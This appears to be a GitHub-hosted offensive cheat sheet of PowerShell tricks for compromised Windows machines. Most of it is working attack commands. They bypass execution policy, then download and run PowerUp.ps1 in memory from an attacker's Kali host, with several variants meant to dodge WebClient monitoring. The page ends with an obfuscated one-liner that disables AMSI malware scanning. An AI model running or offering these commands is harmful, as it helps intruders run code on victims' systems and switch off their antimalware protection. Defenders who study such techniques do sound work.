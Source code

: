 # Powershell

Here I will describe many common tricks for Powershell:

## Non Interactive PowerShell execution

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

## Execute file in memory

Let's say you would like to execute PS module from you Apache / SimpleHTTPServer on the victim. 
The following techniques will downloaf the PS module and execute it in memory with no touching the disk.

For Powershell 1.0 - 2.0:

```
PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/PowerUp.ps1')
```

For Powershell 3.0+:

```
PS C:\> iex (iwr 'http://<kali_ip>/PowerUp.ps1')
```

## Execute Script without Webclient

In some case WebClient might be moitored so try another way:

```
PS C:\> $wr = [System.NET.WebRequest]::Create("http://<kali_ip>/PowerUp.ps1") 
PS C:\> $r = $wr.GetResponse()
PS C:\> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

## Disable AMSI protection in Win10+

This features uses string detection to detect "malicous" intents in commands and scripts. This is applied into Windows 10 and above:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
